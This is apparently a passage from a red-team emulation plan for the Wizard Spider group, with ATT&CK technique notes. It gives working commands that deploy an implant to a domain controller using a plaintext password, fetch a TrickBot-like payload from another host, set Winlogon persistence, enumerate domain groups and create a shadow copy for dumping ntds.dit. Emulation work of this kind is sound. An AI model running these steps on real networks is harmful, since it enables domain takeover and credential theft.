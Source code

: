 ```bash
sshpass -p q27VYN8xflPcYumbLMit scp /path/to/jelly vfleming@oz.local@10.0.0.4:"C:\Users\vfleming\."
```
Execute Jelly on the domain controller.
```bash
sshpass -p q27VYN8xflPcYumbLMit ssh vfleming@oz.local@10.0.0.4 'C:\Users\vfleming\jelly.exe'
```
Task Jelly to download a trickbot variant (same binary with a zero appended to the very end)

```bash
jelly download http://192.168.0.4:8080/getFile/uxtheme.exe -OutFile $env:AppData\uxtheme.exe
```
Task Jelly to change the registry key.
```bash
jelly execute powershell.exe -Command 'Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, $env:AppData\uxtheme.exe" -Force'
```

```bash
jelly execute adfind -f "(objectcategory=group)"
```
| TTP | Notes |
| -------- | ------- |
| T1105 | WizardSpider uses SSH to ingress tools and execute code |
| T1571  | WizardSpider uses HTTP over a non-standard port for C2 communications. |
|  T1547.004  | WizardSpider establishes persistence by changing the Winlogon registry keys |
| T1069.003 | WizardSpider enumerates domain groups and computers |
|T1078.002 	| WizardSpider uses stolen domain admin credentials.|

## Step 8 - Dump Active Directory Database (ntds.dit)

During step 8, Wizard Spider tasks Jelly to create a volume shadow copy in order to collect the active directory database (ntds.dit).

Wizard Spider uses vssadmin to create the shadow copy.

Wizard Spider exfiltrates the shadow copy files using an RDP-mounted network share.

---

### ☣️ Procedures
Task Jelly to execute VSSadmin.
```bash
jelly execute 'vssadmin.exe create shadow /for=C:'
```

You will get output resembling the following:

`
vssadmin output:
    Shadow Copy ID: {cb0a1e0b-e4d7-44f4-aacb-daed56db01ce}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
`
